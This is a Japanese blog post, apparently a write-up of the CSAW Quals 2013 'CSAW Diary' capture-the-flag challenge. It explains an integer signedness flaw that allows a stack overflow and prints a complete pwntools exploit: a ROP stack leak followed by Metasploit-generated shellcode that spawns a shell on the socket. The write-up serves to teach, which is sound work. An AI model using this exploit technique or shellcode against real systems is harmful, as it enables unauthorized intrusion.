 ```yaml
---
layout: post
alias: "/blog/2016/01/22/csaw-quals-2013-csawdiary/"
title: "CSAW Quals CTF 2013: CSAW Diary"
date: 2016-01-22T04:57:41+09:00
tags: [ "ctf", "writeup", "csaw-ctf", "arithmetic-overflow", "buffer-overflow", "shellcode", "return-oriented-programming" ]
---
```


かなりの時間はかかったが大半は自力で解いた。

## [CSAW Diary](https://github.com/ctfs/write-ups-2013/tree/master/csaw-quals-2013/exploitation/csawdiary-300)

>   nc 128.238.66.217 34266  
>   [fil_chal]()

与えられるバイナリは`34266`番portを開くサーバ。
接続するとloginを要求されるが、これはバイナリ中に平文で置いてあるのでそれを渡す。
すると`Entry Info: `と入力を促される。まず入力長となる整数を入力し、内容の文字列を入力する。
単純なbuffer overflowはない。

``` sh
$ nc localhost 34266
     *************    $$$$$$$$$        AAAAAAA  *****                   *****
    *   *******  *    $ $$   $$        A     A   *   *                 *   * 
    *  *       ***     $ $   $$       A  A A  A   *   *               *   *  
    *  *                $ $          A  A___A  A   *   *             *   *   
    *  *                 $ $        A           A   *   *    ****   *   *
    *  *                  $ $      A     AAA     A   *   *   *  *  *   *
    *  *       ***         $ $     A    A   A    A    *   ***   ***   *
    *  ********  *   $$$$$$   $    A    A   A    A     *             * 
     *************   $$$$$$$$$$    AAAAAA   AAAAAA      ************* 
                Dairy

UserName: csaw2013
Password: S1mplePWD
Welcome!
http://youtu.be/KmtzQCSh6xk

Entry Info: 30
foo
Til next time
```

nx bitはない。

``` sh
$ checksec --file fil_chal
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   fil_chal
```

脆弱性となるのは入力長の整数とその`signed`と`unsigned`を混同した比較である。
内部で`(unsigned)(n+1) <= 0x400`と比較されるので、ここに`-1`を渡すと`0 < 0x400`となりチェックを通過できる。このため`0xffffffff`文字まで書き込めることになり、stack上のbuffer overflowが可能となる。
あとは、stackのアドレスは再接続により変わらないため、簡単なropによりstackを読み出し、これから得られたアドレスを元にstack上のshellcodeにreturnすればよい。

本来のbufferの範囲にはasciiの範囲の文字しか入力できないようチェックがあるが、これは攻撃には影響しない。
アドレスの読み出しは不安定なのでsledと手での調整で適当にする。

ところでyoutubeへのurlは何だったのだろうか。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import time

context.log_level = 'debug'

##
## leak esp
##

p = remote('localhost', 34266)
p.recvuntil('UserName: ')
p.sendline('csaw2013')
p.recvuntil('Password: ')
p.sendline('S1mplePWD')
p.recvuntil('Entry Info: ')
p.sendline('-1')

# buf + 0x420 - 8 ebx
# buf + 0x420 - 4 edi
# buf + 0x420     ebp
# buf + 0x420 + 4 ret
# buf + 0x420 + 4 + 0x1c ebp

call_send = 0x08048d04
pop0_ret = 0x0804868f # rp -r 0 -f fil_chal --unique

payload = ''
payload += 'A' * 0x420 # buf[0x400], it must be filled with ascii
payload += p32(pop0_ret) * 5
payload += p32(call_send) # send(4, ebp, -1, 0)
payload += p32(4) # socket fd
p.sendline(payload)
s = p.recvall()

# find a stack-like addr
for i in range(len(s)-4):
    if s[i+3] == '\xff' and '\0' not in s[i:i+4]:
        stk = u32(s[i:i+4])
        break
stk -= 0x100 # magic offset, hand tweaked
log.success('got stack addr: ' + hex(stk))

##
## attack
##

p = remote('localhost', 34266)
p.recvuntil('UserName: ')
p.sendline('csaw2013')
p.recvuntil('Password: ')
p.sendline('S1mplePWD')
p.recvuntil('Entry Info: ')
p.sendline('-1')

# metasploit
# >   $ msfconsole
# >   msf payload(shell_bind_tcp) > use payload/linux/x86/exec
# >   msf payload(exec) > generate -o CMD='/bin/sh 0<&4 1>&4'
shellcode = \
    "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73" + \
    "\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x12\x00\x00" + \
    "\x00\x2f\x62\x69\x6e\x2f\x73\x68\x20\x30\x3c\x26\x34\x20" + \
    "\x31\x3e\x26\x34\x00\x57\x53\x89\xe1\xcd\x80"

payload = ''
payload += 'A' * 0x420 # buf[0x400], it must be filled with ascii
payload += p32(stk)
payload += '\x90' * 0x100 # nop sled, if you make it longer, sigsegv will happen
payload += shellcode
p.sendline(payload)

time.sleep(0.1)
p.sendline('ls')
p.interactive()
```
